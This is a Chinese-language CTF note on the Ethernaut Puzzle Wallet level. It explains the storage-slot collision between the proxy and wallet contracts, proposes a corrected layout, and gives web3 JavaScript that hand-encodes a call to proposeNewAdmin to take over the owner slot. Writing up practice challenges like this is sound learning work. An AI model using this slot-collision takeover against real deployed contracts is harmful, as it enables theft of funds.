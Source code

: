 ```yaml
---
layout: post
title:  （笔记）PuzzleWallt中slot存储冲突以及函数签名的利用
categories: [Solidity,区块链安全,智能合约]
excerpt: slot冲突问题，利用未公开的代理合约函数ABI制造函数签名，并且调用....

---
```


## meet it

在打[Puzzle Wallet](https://ethernaut.openzeppelin.com/level/0x4dF32584890A0026e56f7535d0f2C6486753624f)时，对一些重点进行记录



- **slot冲突问题**
- **利用未公开的代理合约函数ABI制造函数签名，并且调用**

## slot冲突问题

proxy合约和PuzzleWallet合约的整个逻辑是数据分离：

proxy合约保存数据，PuzzleWallet合约保存代码逻辑，当合约更新时，只需要更改PuzzleWallet的地址，并且proxy延用当前保存的数据继续服务。

```solidity
contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;  // slot 0
    address public admin; // slot 1
    }
    contract PuzzleWallet {
    address public owner; // slot 0 
    uint256 public maxBalance; // slot 1
    mapping(address => bool) public whitelisted; //slot 2
    mapping(address => uint256) public balances; // slot 3
    }
```

问题是，PuzzleProxy自己定义的pendingAdmin，admin 。那么当运行后，两个合约slot0 和 slot1 是重叠冲突的。 

意味着当我们修改pendingAdmin时，等同于修改了pendingAdmin和owner

解决方法是  PuzzleProxy 应该 和 PuzzleWallet  的变量应该同步，即使增加pendingAdmin和admin，也要如下：

````soli
contract PuzzleProxy is UpgradeableProxy {
    address public owner; // slot 0 
    uint256 public maxBalance; // slot 1
    mapping(address => bool) public whitelisted; //slot 2
    mapping(address => uint256) public balances; // slot 3
    address public pendingAdmin;  // slot 4
    address public admin; // slot 5 
    }
````

## 利用未公开的代理合约函数ABI制造函数签名，并且调用

当我们用web3与合约交互，查看ABI，发现并没有proxy合约的函数，但我们知道字节码中肯定包含了proxy合约的函数。所以我们需要自己编辑ABI，制造函数签名去调用它的proposeNewAdmin函数。

```solidity
   function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }
```

下面是调用的JS：

```javascript
proposeNewAdminABI = {
    name:'proposeNewAdmin',
    type: 'function',
    inputs: [
        {
            type: "address",
            name:"_newAdmin"
        }
    ]
}
params = [player]
data = web3.eth.abi.encodeFunctionCall(proposeNewAdminABI,params)
await web3.eth.sendTransaction({from: player,to: contract.address,data})
```